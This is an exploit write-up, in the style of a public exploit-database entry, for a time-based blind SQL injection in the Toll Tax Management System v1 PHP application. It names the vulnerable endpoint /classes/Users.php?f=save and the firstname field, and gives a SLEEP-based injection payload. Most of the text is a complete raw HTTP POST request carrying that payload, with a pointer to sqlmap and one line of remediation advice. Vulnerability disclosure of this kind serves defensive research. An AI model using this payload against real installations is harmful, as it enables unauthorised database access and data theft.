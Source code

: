 # Vault

# Exploit Title: 
SQLI Blind (Toll Tax Management System)
# Date: 
22/09/2023
# Exploit Author: 

Xcode0x (Mohamed Almarri)

Twitter: @xcode0x

# Vendor Homepage: 
[https://github.com/oretnom23]()
# Software Link: 
https://www.sourcecodester.com/php/15304/toll-tax-management-system-phpoop-free-source-code.html
# Version: 
v1
# Tested on: 
debian

----
# SQLI BLIND   :

The application's endpoint /classes/Users.php?f=save is vulnerable to blind SQL injection. By injecting a payload into the firstname field, specifically Adminstrator' AND (SELECT 2171 FROM (SELECT(SLEEP(5)))hgdO)-- EnP, an attacker can introduce a conditional delay in the SQL query. If the server responds with a delay of approximately 5 seconds after processing this request, it confirms the vulnerability. This vulnerability can allow attackers to infer information about the database and potentially extract data or perform administrative operations. It's recommended to sanitize all user inputs and use prepared statements to prevent such attacks.
# POC [debian]:

1- login as admin and go to profile [http://10.0.30.0:1337/admin/?page=user] .

2- set you payload in firstname or use sqlmap .

POST /classes/Users.php?f=save HTTP/1.1

Host: 10.0.30.0:1337

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

X-Requested-With: XMLHttpRequest

Content-Type: multipart/form-data; boundary=---------------------------87171060839686939451677610311

Content-Length: 999

Origin: http://10.0.30.0:1337

Connection: close

Referer: http://10.0.30.0:1337/admin/?page=user

Cookie: PHPSESSID=o23q98hs6j8ut4u548ebt8epe4



-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="id"


1

-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="firstname"


Adminstrator' AND (SELECT 2171 FROM (SELECT(SLEEP(5)))hgdO)-- EnP

-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="middlename"


s

-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="lastname"


Admin

-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="username"


admin

-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="password"


-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="img"; filename=""

Content-Type: application/octet-stream


-----------------------------87171060839686939451677610311--


![Drag Racing](https://github.com/xcodeOn1/SQLI-TollTax/blob/main/s1.png)

![Drag Racing](https://github.com/xcodeOn1/SQLI-TollTax/blob/main/s2.png)

 # Tested  

 Linux - debian
